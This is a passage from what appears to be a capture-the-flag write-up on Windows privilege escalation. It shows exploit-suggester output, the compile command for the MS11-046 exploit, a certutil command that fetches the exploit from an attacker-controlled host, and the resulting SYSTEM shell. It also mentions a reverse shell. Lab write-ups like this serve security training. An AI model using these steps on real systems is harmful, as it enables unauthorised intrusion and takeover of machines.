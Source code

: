```
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

Honing our exploitation searches to "Build 7600" of Windows 7, which we gleaned from our initial enumeration efforts, brings us many options, including: ttps://www.exploit-db.com/download/40564.

Luckily for us, the text of the exploit explains concisely how to compile it for use:
```
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

After compiling the executable, we transfer it over to the machine with certutil to a writeable directory:
```
certutil -urlcache -split -f "http://<attacker-ip>:8000/MS11-046.exe" 
```

**Note:** At this juncture, I had to pass my reverse shell session to `cmd.exe`, as the necessary functionality was proving problematic with my initial PowerShell reverse shell.

With this completed, we simply execute the exploit and enjoy `SYSTEM` access!

```
C:\windows\temp>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

## Jerry
The third box of our initial roundup, Jerry features basic exploitation of an Apache Tomcat web server.
